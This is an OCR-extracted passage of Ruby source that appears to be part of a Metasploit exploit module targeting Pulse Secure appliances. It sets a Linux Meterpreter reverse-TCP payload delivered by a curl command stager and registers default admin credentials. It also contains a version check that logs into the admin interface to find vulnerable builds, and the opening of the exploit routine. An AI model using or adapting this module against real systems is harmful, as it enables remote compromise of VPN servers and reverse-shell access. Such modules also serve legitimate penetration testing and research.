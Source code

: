                  'Platform' => 'linux',
                  'Arch' => [ARCH_X86, ARCH_X64],
                  'Type' => :linux_dropper,
                  'DefaultOptions' => { 'PAYLOAD' => 'linux/x64/meterpreter_reverse_tcp' }
                }
              ]
            ],
            'Payload' => { 'Compat' => { 'ConnectionType' => '-bind' } },
            'DefaultOptions' => { 'RPORT' => 443, 'SSL' => true, 'CMDSTAGER::FLAVOR' => 'curl' },
            'DefaultTarget' => 1,
            'Notes' => {
              'Stability' => [CRASH_SAFE],
              'Reliability' => [REPEATABLE_SESSION],
              'SideEffects' => [IOC_IN_LOGS, ARTIFACTS_ON_DISK, CONFIG_CHANGES],
              'RelatedModules' => ['auxiliary/gather/pulse_secure_file_disclosure']
            }
          )
        )

        register_options([
          OptString.new('TARGETURI', [true, 'The URI of the application', '/']),
          OptString.new('USERNAME', [true, 'The username to login with', 'admin']),
          OptString.new('PASSWORD', [true, 'The password to login with', '123456'])
        ])

        register_advanced_options([
          OptFloat.new('CMDSTAGER::DELAY', [ true, 'Delay between command executions', 1.5 ]),
        ])
      end

      def check(exploiting: false)
        login
        res = send_request_cgi({ 'uri' => normalize_uri('dana-admin', 'misc', 'admin.cgi') })
        fail_with(Failure::UnexpectedReply, 'Failed to retrieve the version information') unless res&.code == 200
        version = res.body.scan(%r{id="span_stats_counter_total_users_count"[^>]+>([^<(]+)(?:\(build (\d+)\))?</span>})&.last
        fail_with(Failure::UnexpectedReply, 'Failed to retrieve the version information') unless version
        version, build = version

        return CheckCode::Unknown unless version.include?('R')

        version, revision = version.split('R', 2)
        print_status("Version #{version.strip}, revision #{revision.strip}, build #{build.strip} found")
        return CheckCode::Appears if version.to_f <= 9.1 && revision.to_f < 9

        CheckCode::Detected
      rescue Msf::Exploit::Failed
        CheckCode::Unknown
      ensure
        logout unless exploiting
      end

      def exploit
        case (checkcode = check(exploiting: true))
        when Exploit::CheckCode::Vulnerable, Exploit::CheckCode::Appears
          print_good(checkcode.message)
        when Exploit::CheckCode::Detected
          print_warning(checkcode.message)
        else
          fail_with(Module::Failure::Unknown, checkcode.message.to_s)
        end
